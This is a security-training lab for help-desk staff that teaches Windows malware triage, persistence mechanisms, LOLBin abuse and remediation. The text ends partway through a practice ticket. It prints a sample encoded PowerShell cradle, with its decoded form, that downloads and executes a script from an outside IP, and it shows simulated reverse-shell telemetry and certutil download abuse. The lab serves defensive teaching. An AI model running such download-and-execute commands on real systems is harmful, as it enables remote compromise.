


# Portland Desk Lab: Host Malware Triage, Persistence Mechanisms, & EDR Analysis

> **The Situation:** Level 1 Service Desk Terminal • Endpoint Detection (EDR) Console  
> **Your Role:** Tier 1 Service Desk Specialist (under Desk Lead Jules Brooks)  
> **The Objective:** Investigate host malware infections, calculate cryptographic file hashes, decode Base64 living-off-the-land PowerShell commands, and isolate persistence mechanisms.  
> **Estimated Time:** 45–55 minutes • Endpoint Security & Malware Persistence  


---

<details class="instructor-ref">
<summary>Instructor & Certification Reference (Click to Expand)</summary>

* **Aligned Certification:** CompTIA Security+ (SY0-701)
* **Exam Domains:** Domain 2.0 (Malware Types & Mitigations) & Domain 4.0 (Host Forensics, Services Event ID 7045, Tasks 4698)
* **Core Competencies & Deliverables:** Host Persistence & LOLBin Triage Matrix • Encoded PowerShell Payload Decoding Drill • Sysinternals Autoruns & Registry Key Drill • Call Your Shot 5-Case Gate • Host Infection Containment & Escalation Note

</details>


---

## Worked Example: Todd's laptop

This lab starts with the same incident Ethan worked in the chapter, with the answer known. Read it as a demonstration, then use the sections below to practice each step. Section 6 gives you one new problem that works the same way.

**The incident.** A laptop ran an encoded PowerShell command and kept calling an unknown domain.

1. Isolate the machine from the network before anything else.
2. Decode the Base64 command to find the downloader and its domain.
3. Find persistence: a scheduled task named `CacheCleanup` and Run keys.
4. Block the domain, remove persistence, and reimage rather than trust the cleanup.
5. Restore encrypted shares from snapshots the attacker could not reach. Do not pay.
6. Check signed files for revocation. A valid signature only proves who held the key.
7. Result: contained, with half a day of Rina's edits and all of Ken's local files lost.

---

## 1. The Situation & Ground Truth

```callout-panel
title: "FIGURE 10.1: PROCESS TREE & PERSISTENCE MECHANISM"
badge: "Malware Analysis"
caption: "Technical UI diagram: Sysinternals Process Explorer view. Legitimate svchost processes run under services.exe, while counterfeit svch0st runs out of AppData with an active TCP port 4444 socket."
prompt: "Clean technical illustration of a computer monitor displaying a system process management tree under bright laboratory lighting. Process rows are neatly organized with one highlighted entry showing an anomalous socket connection. Clean line art, no text, no words. 16:9 ratio."
```


### The Situation
It is a Thursday in February. Ethan is in his third week as Tier 2. Maya's browser is full of coupon toolbars after an installer ran at 07:41. Sam drops a branded USB stick on the counter that he plugged in at home. Todd's laptop is running encoded PowerShell and copying itself across warehouse shares. Rina Rostova in facilities finds her team folder encrypted, with a ransom note on the desktop. In the afternoon, Ken calls from Gresham with a laptop that is running a signed dropper.

This lab follows those cases in that order: adware, removable media, a worm, ransomware, and a signed file whose certificate has been revoked.

### The Ground Truth Rules of the Desk
1. **Isolate First, Investigate Later:** Containment precedes analysis. When an endpoint displays worm-like lateral spread, active ransomware encryption, or persistent command-and-control (C2) beaconing, immediately sever its network connectivity—pull the physical Ethernet cable, disengage Wi-Fi, and issue an EDR network quarantine. An unplugged machine cannot compromise adjacent subnets, cannot exfiltrate corporate databases, and cannot receive execution instructions.
2. **Living-off-the-Land (LOLBins) Lie in Plain Sight:** Modern attackers rarely drop noisy custom binaries named `malware.exe`. Instead, they abuse trusted, signed operating system binaries (`powershell.exe`, `certutil.exe`, `mshta.exe`, `schtasks.exe`). A green antivirus indicator only means no known signature matched; EDR behavioral heuristics, parent-child process anomalies, and command-line arguments are the source of truth.
3. **Killing the Process Does Not Kill the Persistence:** Terminating an active executable in Task Manager or via `Stop-Process` clears the memory buffer, but leaves host persistence intact. If an adversary installed a Registry Run Key (`HKCU\...\Run`), a malicious Windows Service (Event ID 7045), a Scheduled Task (Event ID 4698), or a Startup folder shortcut, the malware will resurrect upon the next reboot or user logon.
4. **Cryptographic Hashes Are the Definitive File Identity:** File names, extensions, and icons are cosmetic illusions (e.g., `SOW_final.pdf.exe`). Always compute the SHA-256 cryptographic digest via `Get-FileHash` and verify against global threat intelligence repositories (VirusTotal / internal IoC catalogs) before touching or whitelisting unknown binaries.
5. **Never Pay the Notepad & Never Negotiate with Ransomware:** Paying a ransom subsidizes international criminal syndicates, marks the enterprise as a compliant target for future attacks, and provides zero cryptographic guarantee that files can be decrypted. The only professional response is immediate isolation, triage artifact preservation for SOC/forensics, and restoration from clean, immutable offline backups.


---

## 2. Technical Reference & Triage Matrix

### Windows Host Persistence Mechanisms

Adversaries establish persistence to maintain access across reboots, user logoffs, and administrative process terminations. In CompTIA Security+ SY0-701 Domain 4.1, technicians must identify where malware anchors itself into the Windows operating system.



#### 1. Registry Run Keys
* **HKCU Run Key (`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`):**
  - Scope: Current logged-in user only.
  - Privileges Required: Standard user (no administrative elevation needed).
  - Operational Impact: Executes automatically whenever the specific user logs in. Frequently abused by droppers, adware, and userland RATs.
* **HKLM Run Key (`HKLM\Software\Microsoft\Windows\CurrentVersion\Run`):**
  - Scope: System-wide (all interactive users).
  - Privileges Required: Local Administrator / Elevated Token.
  - Operational Impact: Executes on every user logon across the workstation.
* **RunOnce Keys (`HKCU\...\RunOnce` and `HKLM\...\RunOnce`):**
  - Executes once upon the next logon and is automatically deleted by the operating system. Often used by droppers to perform secondary payload staging and cleanup.
* **Triage Command:**
  ```powershell
  # Query Current User Run Keys
  reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /s
  # Query Local Machine Run Keys via PowerShell
  Get-ItemProperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run"
  ```

#### 2. Windows Services (Event ID 7045)
* Windows Services run in background session 0 without requiring an interactive user desktop session, typically under `NT AUTHORITY\SYSTEM` or `LocalService`.
* When an adversary establishes persistence via a new service (e.g., via `sc.exe create` or PowerShell `New-Service`), the Windows Service Control Manager generates **Event ID 7045** in the **System Event Log**:
  - `ServiceName`: Name registered with the Service Control Manager.
  - `ImagePath` / `ServiceFileName`: Exact command line or path to executable (frequently points to `%TEMP%`, `%APPDATA%`, or invokes a LOLBin cradle).
  - `ServiceType`: `user mode service (0x10)` or `kernel driver (0x1)`.
  - `StartType`: `auto start (2)` (starts at boot) or `demand start (3)`.
  - `AccountName`: Identity executing the service (typically `LocalSystem`).
* **Triage Command:**
  ```powershell
  # Filter System log for new service creations in the last 24 hours
  Get-WinEvent -FilterHashtable @{LogName='System'; Id=7045} | Format-List TimeCreated, Message
  ```

#### 3. Scheduled Tasks (Event ID 4698)
* Windows Task Scheduler enables tasks to execute on precise schedules, upon system startup, upon workstation idle, or when specific Event IDs occur.
* Created via `schtasks.exe /create` or PowerShell `Register-ScheduledTask`.
* Generates **Event ID 4698** in the **Security Event Log** (*"A scheduled task was created"*). The event payload contains an embedded XML schema detailing:
  - `<TaskName>`: Directory path and identifier of the task.
  - `<UserId>` / `<Principal>`: The user or service account context (`NT AUTHORITY\SYSTEM` or specific domain SID).
  - `<Command>` and `<Arguments>`: The binary and command line executed.
* **Triage Command:**
  ```cmd
  schtasks.exe /query /fo LIST /v | findstr /i "TaskName Task To Run Status Next"
  ```

#### 4. Startup Folders
* **Current User Startup Folder:**  
  `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`  
  (`C:\Users\<Username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`)
* **All Users Startup Folder:**  
  `%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup`  
  (`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`)
* Any executable, script (`.vbs`, `.ps1`, `.bat`), or shortcut (`.lnk`) placed in these folders runs automatically upon interactive logon.


---

### Living-off-the-Land Binaries (LOLBins)

Adversaries routinely leverage legitimate, signed Windows utilities already present on the system to conduct reconnaissance, evade detection, download payloads, and execute arbitrary code. Because these binaries are signed by Microsoft, legacy antivirus solutions do not block them based on file reputation alone.

| LOLBin Executable | Legitimate Administrative Purpose | Adversary Abuse Vector | Detection & Telemetry Signature |
| :--- | :--- | :--- | :--- |
| **`powershell.exe`** | Advanced operating system automation, management, and scripting. | In-memory code execution (`-enc`), bypassing execution policies (`-ep bypass`), suppressing windows (`-w hidden`), and executing web cradles (`DownloadString`). | Event ID 4104 (Script Block Logging) capturing de-obfuscated script content; process command lines with `-enc`, `-nop`, `IEX`. |
| **`certutil.exe`** | Certificate Authority configuration, cryptographic key management, certificate verification. | Arbitrary file downloading from remote servers using `-urlcache -split -f <URL> <Path>` to fetch malware stages through corporate firewalls. | Event ID 4688 / Sysmon Event 1 containing `certutil.exe` with arguments `-urlcache` or `-split`; unexpected outbound network connections from `certutil.exe`. |
| **`mshta.exe`** | Executing Microsoft HTML Applications (.hta) and legacy HTML-wrapped tools. | Direct execution of malicious inline VBScript/JScript or fetching remote `.hta` payload cradles without invoking the browser or PowerShell. | Command lines containing `mshta.exe vbscript:` or pointing to external HTTP/HTTPS endpoints; parent processes like Word, Excel, or PDF readers. |
| **`bitsadmin.exe`** | Background Intelligent Transfer Service administration for asynchronous file downloads. | Asynchronous, resilient downloading of secondary malware payloads that survive reboots and pause during network loss. | `bitsadmin.exe /transfer` jobs pointing to non-internal IP addresses or domain names. |
| **`rundll32.exe`** | Executing 32-bit and 64-bit dynamic link libraries (.dll). | Loading malicious DLL payloads directly into memory or invoking malicious exported functions without dropping an EXE. | `rundll32.exe` executing DLLs from `%TEMP%`, `%APPDATA%`, or calling ordinal numbers or unusual exported names. |


---

### File Integrity & Cryptographic Hash Analysis

When an unknown file or dropper is recovered from an endpoint, help desk technicians must determine its cryptographic signature rather than trusting its display name.

#### 1. Hash Collision Resistance & Standard Algorithms
* **MD5 (128-bit):** Cryptographically broken. Vulnerable to collision attacks (two distinct files producing identical MD5 digests). Deprecated for security use.
* **SHA-1 (160-bit):** Cryptographically broken by practical collision demonstrations (SHAttered attack). Deprecated.
* **SHA-256 (256-bit / 64 hex characters):** Current global enterprise and forensic standard. Offers strong collision resistance and preimage resistance. Used by Threat Intelligence platforms, SIEMs, and EDR systems.



#### 2. Calculating File Hashes in PowerShell
```powershell
# Compute SHA-256 hash of a suspicious payload
Get-FileHash -Path "C:\junk-scan\SOW_final.pdf.exe" -Algorithm SHA256 | Format-List Algorithm, Hash, Path
```

#### 3. VirusTotal & Threat Intelligence Triage
* **Multi-Engine Detection:** Evaluates the SHA-256 hash against 70+ antivirus and endpoint security vendor engines.
* **Signatures vs. Heuristics:**
  - *Signature Detection:* Matches static, exact byte sequences or hashes against a catalog of previously cataloged threats. Rapid, but blind to new variants or modified binaries.
  - *Heuristic / Behavioral Detection:* Analyzes code patterns, API call sequences, memory injection attempts, and sandbox runtime behavior. Flags unknown threats performing suspicious actions (e.g., keyboard hooking, shadow copy deletion).


---

### Master Host Malware & Persistence Triage Matrix

| Malware Classification | Typical Attack Vector & LOLBin Ingress | Host Persistence Method | Primary Host & Network Telemetry | Tier 1 Containment & Remediation Standard |
| :--- | :--- | :--- | :--- | :--- |
| **Trojan / Dropper** | Phishing email attachment, spoofed document (`SOW_final.pdf.exe`), bundled free software. | `HKCU\...\Run` keys, drops secondary DLLs into `%APPDATA%`. | Antivirus quarantine log, mismatched file extension, unexpected child process of email/browser client. | Quarantine dropper file, audit user downloads, check Run keys, verify whether secondary payload executed. |
| **Worm (Lateral Spreader)** | Removable media (USB), network shares (SMB port 445), unpatched network daemon. | Scheduled Tasks (`schtasks.exe`), services replicating across administrative shares (`C$`, `share$`). | High CPU usage, process trees with `net view /all`, `schtasks /create`, surge in outbound SMB traffic. | **Immediate physical/network isolation.** Pull network cable, kill lateral process tree, notify SOC of affected network shares. |
| **Ransomware / Crypto-Malware** | Phishing link, RDP brute-force, secondary payload delivered by Trojan. | Volume Shadow Copy deletion (`vssadmin delete shadows`), Run keys to display ransom note at boot. | Massive disk I/O, bulk file renames to `.locked`, appearance of `README_RESTORE.txt`, high CPU. | **Immediate emergency network isolation.** Power off only if advised by SOC; preserve memory if possible; **never pay ransom**; verify immutable offline backups. |
| **Spyware / Keylogger** | Trojan bundles, fake software updates (`FontUpdateHelper.exe`), rogue browser extensions. | Run keys (`HKCU\...\Run`), user Startup folder, Windows API keyboard hooking (`SetWindowsHookEx`). | User reports keyboard input latency, browser redirects, outbound HTTP/S traffic to unrecognized IP endpoints. | Isolate host, terminate process, clean persistence keys, **force out-of-band credential reset** for all accounts accessed on host. |
| **Rootkit** | Kernel-level exploitation, unsigned/vulnerable driver installation (BYOVD attack). | Kernel drivers registered as System Services (Event ID 7045 with `ServiceType: 0x1`). | EDR flags hooked SSDT or kernel functions, discrepancies between low-level disk tools and Windows Explorer/tasklist. | **Do not attempt userland cleaning.** Image disk for forensic analysis if requested by SOC, then **wipe and reimage system** from bare metal. |
| **Fileless Malware / C2 Bot** | Living-off-the-land scripts, malicious macros spawning `powershell.exe -enc`, memory injection. | WMI event subscriptions, Registry Run keys storing encoded scripts, scheduled tasks executing LOLBins. | Event ID 4104 script block execution, periodic outbound TCP 443 beacons on fixed intervals (e.g., every 300s). | Isolate endpoint, terminate owning process ID, extract C2 IP/domain for perimeter firewall blocking, inspect WMI/Registry persistence. |
| **Logic Bomb** | Malicious insider, rogue contractor script, dormant scheduled task with date/event trigger. | Scheduled Tasks (Event ID 4698), Windows Services with delayed start triggers. | Event ID 4698 with conditional triggers (e.g., account disabled check), unauthorized script files on staging servers. | Disable scheduled task immediately, export task XML for HR/Legal audit, preserve filesystem audit logs. |
| **Cryptojacker** | Drive-by web download, unauthorized background daemon, Trojan bundle. | Windows Services (Event ID 7045), scheduled tasks, masquerading as legitimate Windows update binaries. | Continuous 100% CPU/GPU utilization, thermal fan alerts, outbound mining pool connections over non-standard ports. | Terminate mining process, eradicate service/task persistence, identify ingress vector, clean system temp directories. |


---

## 3. Quick Checks & Skill Reps

### Drill 1: Deciphering Encoded PowerShell Payloads

#### The Scenario
At 10:17 AM, Todd Miller from Sales called the help desk in a panic: his laptop fans were roaring like a jet engine, and his mouse was stuttering. You open the EDR console and locate an alert for workstation `TODD-SALES-14`. The alert reveals that a parent scheduled task spawned a hidden, encoded PowerShell session:

```console
caption: EDR Alert Command Line · Host: TODD-SALES-14 · PID: 6412
powershell.exe -nop -w hidden -enc JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAOwAkAHMALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKABoAHQAdABwADoALwAvADEAOAA1AC4AMgAyAC4AMQAxADIALgAxADQAOgA4ADAAOAAwAC8AdQBwAGQAYQB0AGUALgBwAHMAMQApACAAfAAgAEkARQBYAA==
```

You open a PowerShell terminal on your management workstation to de-obfuscate the command line, then pull the companion event log from [`artifacts/powershell_event_4104.json`](../artifacts/powershell_event_4104.json):

```json
{
  "Event": {
    "System": {
      "Provider": { "Name": "Microsoft-Windows-PowerShell" },
      "EventID": 4104,
      "TimeCreated": { "SystemTime": "2026-10-22T10:17:42.184912Z" },
      "Execution": { "ProcessID": 6412 },
      "Computer": "TODD-SALES-14.harrowmere.local"
    },
    "EventData": {
      "ScriptBlockText": "$s=New-Object Net.WebClient;$s.DownloadString('http://185.22.112.14:8080/update.ps1') | IEX",
      "ScriptBlockId": "4a7b2190-89dc-4f81-a982-19bc3e901411"
    }
  }
}
```

#### Your Analysis Task
1. What command in PowerShell is used to decode this Base64 payload, and why does Windows PowerShell require `Unicode` (UTF-16LE) decoding rather than standard `ASCII` or `UTF-8`?
2. What is the plain-text command executed inside the Base64 string?
3. What does the `| IEX` pipeline command do, and why is it referred to as an "in-memory web cradle"?
4. Why is traditional antivirus file scanning ineffective against this specific attack stage?
5. How does PowerShell Script Block Logging (**Event ID 4104**) overcome Base64 obfuscation?

<details>
<summary>Solution & Lead Tech Review</summary>

**Jules' Analysis:**
1. **PowerShell Decoding Command:**
   ```powershell
   $encoded = "JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAOwAkAHMALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKABoAHQAdABwADoALwAvADEAOAA1AC4AMgAyAC4AMQAxADIALgAxADQAOgA4ADAAOAAwAC8AdQBwAGQAYQB0AGUALgBwAHMAMQApACAAfAAgAEkARQBYAA=="
   [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encoded))
   ```
   *Encoding Mechanism:* Windows PowerShell natively encodes strings as 16-bit little-endian Unicode (`UTF-16LE`). If you attempt to decode this string using standard UTF-8 or ASCII, you will get garbled null bytes between every character.
2. **Decoded Plaintext Command:**
   ```powershell
   $s=New-Object Net.WebClient;$s.DownloadString('http://185.22.112.14:8080/update.ps1') | IEX
   ```
3. **`| IEX` (Invoke-Expression) Web Cradle:**  
   The `Net.WebClient.DownloadString()` method contacts the remote server at `http://185.22.112.14:8080` and downloads the script `update.ps1` into a volatile memory string buffer. It does **not** write the file to the hard disk. The pipeline operator (`|`) forwards that raw string directly into `IEX` (`Invoke-Expression`), which instructs the PowerShell engine to execute the string immediately in memory. This is a classic "fileless" download-and-execute cradle.
4. **Antivirus Ineffectiveness:**  
   Traditional signature-based antivirus monitors files written to disk (via file system mini-filter drivers). Because `update.ps1` exists purely in RAM and never touches the storage drive, file-based antivirus scanners have no file to inspect or hash.
5. **Event ID 4104 Superiority:**  
   PowerShell Script Block Logging (Event ID 4104) hooks into the PowerShell engine itself at the execution layer. When PowerShell parses code to be executed—regardless of whether it arrived Base64-encoded, concatenated, or downloaded from the web—the engine reconstructs the raw abstract syntax tree (AST) in memory right before execution. Event ID 4104 logs this complete, de-obfuscated script block directly to the `Microsoft-Windows-PowerShell/Operational` log.
</details>


---

### Drill 2: Sysinternals Autoruns & Registry Run Key Inspection

#### The Scenario
> **Practice case.** This drill is invented for practice and is not an event from the chapter.

Maya in Accounting opened ticket `HD-4419` complaining of browser pop-ups and sluggish performance following an unauthorized software download. You remote into `MAYA-W11` with her permission. In Task Manager, you see an unfamiliar process named `optram.exe` using 15% CPU. If you simply right-click and choose "End Task", the process disappears, but returns immediately upon reboot.

To inspect the persistence mechanism, you examine the pre-recorded Autoruns log in [`artifacts/autoruns_dump.txt`](../artifacts/autoruns_dump.txt) and the System Event Log in [`artifacts/event_7045_dump.txt`](../artifacts/event_7045_dump.txt):

```text
================================================================================
Sysinternals Autoruns Command-Line Dump (autorunsc.exe -a r -c)
Host: MAYA-W11.harrowmere.local
================================================================================
Entry Location: HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
Entry:         OptimizeRAM
Status:        Enabled
ImagePath:     C:\Users\maya\AppData\Local\Temp\optram.exe --silent --daemon
Publisher:     (Not verified) Unknown
SHA256:        9f2c8d1e3a4b5c6d7e8f0a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9bc41a
VirusTotal:    54/71 Security Vendors Flagged as Malicious (Adware.Win32.Optimizer)

Entry:         CouponBarEngine
Status:        Enabled
ImagePath:     C:\Users\maya\AppData\Local\CouponBar\couponbar.dll,RunEngine
Publisher:     (Not verified) AdTrack Global Media
SHA256:        7a8b9c0d1e2f3a4b5c6d7e8f0a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b
VirusTotal:    61/71 Security Vendors Flagged as Malicious (Trojan.Win32.AdwareHelper)
```

And in the System Event Log (`event_7045_dump.txt`):
```text
Event ID: 7045
Source:   Service Control Manager
Message:  A service was installed in the system.
          Service Name:       OptimizeRAMSvc
          Service File Name:  C:\Users\maya\AppData\Local\Temp\optram.exe --service
          Service Type:       user mode service (0x10)
          Service Start Type: auto start (2)
          Service Account:    LocalSystem
```

#### Your Analysis Task
1. What dual persistence mechanisms did the malware installer establish on Maya's machine?
2. Why is the executable located in `C:\Users\maya\AppData\Local\Temp\`, and what policy violation does this represent?
3. What is the critical risk of having `OptimizeRAMSvc` run under the `LocalSystem` account?
4. Outline the exact 4-step technical eradication sequence to permanently remove this persistence without rebooting into an infected state.

<details>
<summary>Solution & Lead Tech Review</summary>

**Jules' Analysis:**
1. **Dual Persistence Mechanisms:**
   - *User-Level Persistence:* A Registry Run key located at `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\OptimizeRAM` ensuring the executable launches silently whenever Maya logs into her desktop.
   - *Machine-Level Persistence:* A Windows Service named `OptimizeRAMSvc` configured for `Auto Start (2)` registered with the Service Control Manager (Event ID 7045).
2. **Executable Location & Policy Violation:**  
   The binary is executing from Maya's user temporary directory (`%TEMP%`). Standard users have full write permissions to their own AppData and Temp folders without requiring admin rights. Enterprise Software Execution Policies (AppLocker / Windows Defender Application Control) should strictly prohibit binaries from executing out of user-writable directories (`%TEMP%`, `%APPDATA%`, `C:\Users\*\Downloads`).
3. **Privilege Escalation Risk (`LocalSystem`):**  
   While Maya is a standard user, the installer leveraged a UAC prompt during the PDF merger installation to create a Windows Service running as `LocalSystem` (`NT AUTHORITY\SYSTEM`). This means an unverified adware/dropper binary now possesses kernel-equivalent system privileges, allowing it to bypass user permissions, access all file volumes, modify security settings, and inject code into other processes.
4. **Permanent Eradication Sequence:**
   1. **Stop and Delete the Malicious Service:**
      ```powershell
      Stop-Service -Name "OptimizeRAMSvc" -Force
      sc.exe delete "OptimizeRAMSvc"
      ```
   2. **Purge the Registry Run Keys:**
      ```powershell
      Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "OptimizeRAM"
      Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "CouponBarEngine"
      ```
   3. **Terminate Running User Processes:**
      ```powershell
      Get-Process -Name "optram" | Stop-Process -Force
      ```
   4. **Quarantine and Delete Disk Binaries:**
      Remove the staged executables and DLLs from `C:\Users\maya\AppData\Local\Temp\` and `C:\Users\maya\AppData\Local\CouponBar\`. Perform a full EDR anti-malware scan to ensure no additional dropped stages exist.
</details>


---


### 2.3 Interactive Diagnostic Console: Live Telemetry & Triage

Use the interactive console below to test commands, inspect telemetry, and verify your troubleshooting steps.

```lnk-terminal
title: "POWERSHELL: HOST PROCESS & PERSISTENCE TRIAGE"
shell: "powershell"
prompt: "PS C:\Incident> "
replay: true
objectives:
  - id: "obj-proc"
    label: "Find high-CPU process running from temp directories"
    trigger: "Get-Process | Where Path -like "*AppData*""
  - id: "obj-tcp"
    label: "Inspect outbound socket connections for rogue process"
    trigger: "Get-NetTCPConnection -OwningProcess 4812"
  - id: "obj-kill"
    label: "Terminate malicious process executing in memory"
    trigger: "Stop-Process -Id 4812 -Force"
  - id: "obj-persist"
    label: "Purge persistence run key from Registry"
    trigger: "Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -Name 'WindowsUpdateSync'"
---
Get-Process | Where Path -like "*AppData*": |
  Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id ProcessName Path
  -------  ------    -----      -----     ------     -- ----------- ----
      842      45    98200     112400     412.18   4812 svch0st     C:\Users\todd.miller\AppData\Local\Temp\svch0st.exe
  [CRITICAL] Rogue binary impersonating svchost running outside System32!

Get-NetTCPConnection -OwningProcess 4812: |
  LocalAddress    LocalPort RemoteAddress   RemotePort State       OwningProcess
  ------------    --------- -------------   ---------- -----       -------------
  192.168.10.74   49812     203.0.113.88    4444       ESTABLISHED 4812
  Warning: Outbound TCP reverse shell established to remote C2 IP 203.0.113.88:4444.

Stop-Process -Id 4812 -Force: |
  Process 4812 (svch0st.exe) terminated in volatile memory.
  [WARNING] Process eliminated from RAM, but persistence mechanism remains on disk!

Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -Name 'WindowsUpdateSync': |
  [OK] Registry value 'WindowsUpdateSync' removed from HKCU:\Software\Microsoft\Windows\CurrentVersion\Run.
  Persistence mechanism neutralized. Host isolated from network pending forensic acquisition.

```

---

### Quick Check 3: Call Your Shot: Predict Before You Look

> **Practice cases.** Unless a case names the chapter's incident, these are invented practice cases. They use the chapter's ideas on new machines and new people, and they are not events from the story.

> **The Rule of the Desk:** Before typing a command, terminating a process, or replying to a ticket, commit your decision in your mind: name the threat category, state your containment action, and provide your technical justification.
<div class="scratchpad-container">
  <div class="scratchpad-header">
    <span class="scratchpad-title">Interactive Hypothesis Scratchpad</span>
    <span class="scratchpad-save-indicator" id="save-ind-10-cbyt">Saved in browser</span>
  </div>
  <div class="scratchpad-body">
    <textarea id="notes-10-cbyt" placeholder="Type your predicted failure layer, expected command output, and root cause hypothesis here before opening solutions..."></textarea>
  </div>
  <div class="scratchpad-footer">
    <span>Private notes saved locally in your browser. Not graded.</span>
    <button type="button" class="scratchpad-copy-btn" onclick="copyScratchpad('notes-10-cbyt')">Copy Notes</button>
  </div>
</div>


#### Ticket 1 (practice case, not from the chapter): Warehouse Clerk (Shipping Bay) — `INC-2026-1181`
*Request:* "Found an unlabeled USB stick in the shipping bay. Plugged it in to see who owns it, and my laptop fans immediately spun up to 100%. Antivirus quarantined `SOW_final.pdf.exe`. Can I just unplug the USB, empty my recycle bin, and keep working on my sales forecast?"

* **Your Action:** [ Clear Alert & Resume / Isolate Host & Audit Network Shares / Scan USB on Laptop ]
* **Threat Classification & Vector:**
* **Technical Step & Justification:**

<details>
<summary>Solution & Lead Tech Review</summary>

* **Action:** **ISOLATE HOST IMMEDIATELY & AUDIT NETWORK SHARES**.
* **Threat Classification & Vector:** **Trojan / Worm** delivered via **Removable Media (USB)**.
* **Justification:** Even though the local AV quarantined the initial dropper file (`SOW_final.pdf.exe`), Todd's roaring fans indicate secondary payload execution. The process tree confirmed `powershell.exe` executing lateral enumeration commands (`net view /all`) and attempting to replicate to warehouse shares. Disconnect the Ethernet cable and disable Wi-Fi immediately. The USB drive must be confiscated and audited only on an isolated, non-domain analysis rig. The network shares must be audited for unauthorized file drops.
</details>


---

#### Ticket 2: Rina Rostova (Facilities Lead) — `INC-2026-1182`
*Request:* "All work orders and vendor contracts on my desktop have the extension `.locked`. A Notepad opened titled `README_RESTORE.txt` demanding \$2,000 in Bitcoin within 72 hours. It says if I join their online customer chat they will decrypt one file for free as proof. Can I test the chat to get our building HVAC blueprints back?"

* **Your Action:** [ Test Decrypt Chat / Negotiate / Isolate Host & Engage Backups ]
* **Threat Classification & Vector:**
* **Technical Step & Justification:**

<details>
<summary>Solution & Lead Tech Review</summary>

* **Action:** **ISOLATE HOST & ENGAGE OFFLINE BACKUPS; DO NOT PAY OR CHAT**.
* **Threat Classification & Vector:** **Ransomware / Crypto-Malware**.
* **Justification:** Enterprise policy strictly prohibits communicating with extortionists or paying ransoms. Testing the chat confirms to the threat actor that the victim is engaged and responsive, inviting aggressive extortion tactics. Furthermore, uploading sensitive corporate files (HVAC blueprints) to an attacker web portal constitutes an unauthorized data exfiltration breach. Disconnect the host from the network immediately to prevent network-mapped SMB drives from being encrypted. Escalate to the SOC and initiate file restoration from immutable/offline backups.
</details>


---

#### Ticket 3 (practice case, not from the chapter): Nora Higgins (Finance Specialist) — `INC-2026-1183`
*Request:* "A black terminal window flashed on my screen for half a second while I was reviewing budget spreadsheets. My local antivirus widget says 'System Protected - 0 Threats Found'. I have payroll due in two hours—can I ignore it?"

* **Your Action:** [ Dismiss Ticket / Query Network Telemetry & Isolate Host ]
* **Threat Classification & Vector:**
* **Technical Step & Justification:**

<details>
<summary>Solution & Lead Tech Review</summary>

* **Action:** **QUERY NETWORK TELEMETRY & ISOLATE HOST**.
* **Threat Classification & Vector:** **Fileless Malware / Command-and-Control (C2) Bot**.
